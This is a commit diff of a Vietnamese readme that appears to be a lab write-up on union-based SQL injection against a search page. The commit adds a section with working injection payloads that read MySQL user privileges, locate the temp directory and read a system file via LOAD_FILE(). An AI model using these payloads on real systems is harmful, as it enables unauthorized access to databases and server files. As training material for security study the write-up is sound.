

Before and after one commit to bluecrypt47/SQLi-UNION, a Markdown page: readme.md, 2 parts joined by grey strips. Shown: that part at 89% size. Rendered like a GitHub page; pictures changed too: img/13.png (added), img/14.png (added); blank space fills up the shorter version.

Commit message:
LOAD_FILE()

```diff
--- a/readme.md
+++ b/readme.md
@@ -2,6 +2,7 @@ Người thực hiện: Lê Trần Văn Chương.
 Ngày: 05/04/2022.
 Mục lục:
 - Khai thác SQLi Union Based chức năng search ở trang index.php
+- LOAD_FILE()
 ## Khai thác SQLi Union Based chức năng search ở trang index.php
 1. Kiểm tra xem có tổng cộng bao nhiêu cột dữ liệu trong bảng của DB.
 `' ORDER BY 14 #`
@@ -56,3 +57,15 @@ Mục lục:
 13.  Ví dụ: tôi khai thác cột `name` và `extension` của bảng `payload`.
 `' UNION SELECT  name,extension,3,4,5,6,7,8,9,10,11,12,13,14 FROM payload  #`
 ![Hinh 12.](~/../img/12.png)
+
+## LOAD_FILE()
+1. Đầu tiên, xem quyền của user bằng hàm `group_concat(table_name)`
+`' UNION SELECT (SELECT group_concat(user,file_priv) FROM mysql.user),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
+![Hinh 13.](~/../img/13.png)
+
+2. Kiểm tra file `tmp` đang ở đâu
+`' UNION SELECT @@slave_load_tmpdir,NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
+=> `C:\xampp\tmp`
+![Hinh 14.](~/../img/14.png)
+
+`' UNION SELECT load_file("Windows\System32\Drivers\etc\hosts"),NULL,3,4,5,6,7,8,9,NULL,NULL,NULL,13,14 #`
```
Also changed, not shown: 1 other file.
